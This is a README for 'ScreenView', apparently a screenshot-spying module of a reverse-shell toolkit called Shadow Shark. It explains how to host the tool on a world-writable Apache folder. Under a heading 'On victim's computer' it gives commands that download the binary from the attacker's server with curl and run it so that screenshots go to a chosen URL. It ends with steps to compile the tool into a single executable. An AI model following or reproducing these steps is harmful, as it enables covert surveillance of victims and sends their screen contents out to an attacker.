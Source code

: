 # ScreenView
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
